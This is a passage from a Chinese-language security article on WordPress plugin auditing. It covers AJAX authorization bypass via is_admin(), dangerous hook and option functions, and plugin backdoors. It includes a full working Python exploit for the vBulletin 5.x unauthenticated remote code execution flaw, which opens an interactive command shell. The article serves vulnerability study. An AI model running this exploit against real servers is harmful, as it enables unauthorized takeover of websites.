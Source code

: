 另外，有人提过nonce可以抑制SSRF的产生。


### wordpress权限认证绕过

由于WordPress中的AJAX动作是通过wp-admin/admin-ajax.php文件访问的，所以is_admin()总是返回true。

官方说法：

> Whether the current request is for an administrative interface page. […] Does not check if the user is an administrator; current_user_can() for checking roles and capabilities.



### 可用攻击向量

下面的函数本来是无害的，它们一般会用于构造利用链，做wordpress权限提升。如果没有过滤完全，会比单纯输出打印内容更富有威胁性。

- update_option() 输入未严格验证的时候，可能会触发wordpress的option的更新。
- do_action() 输入未严格验证的时候，会触发wordpress代码执行。
- add_action 触发函数钩子。




### 第三方信任源和自带后门

第三方信任源的问题，主要可能是对第三方网站内容的加载，没有进行合适过滤。

而插件自带后门，可能会存在硬编码，或者缺少权限验证/权限混乱的问题。通过审计代码，黑客可以直接获取网站权限。比如最近vBulletin 5.x的rce【这里没有现成的wp插件举例，大家将就下】：


```
#!/usr/bin/python
import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input("vBulletin$ ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params)
          if r.status_code == 200:
               print r.text
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))
```

从poc来看，这里的利用方式是不需要认证的，直接通过post参数组，传入恶意代码，即可执行命令。
对于这个后门是否为官方故意所为，笔者不好下定论，但这种漏洞确实不少见。
早些年笔者挖掘cve时就曾遇到过，那还是个有几十万用户量的wordpress插件。
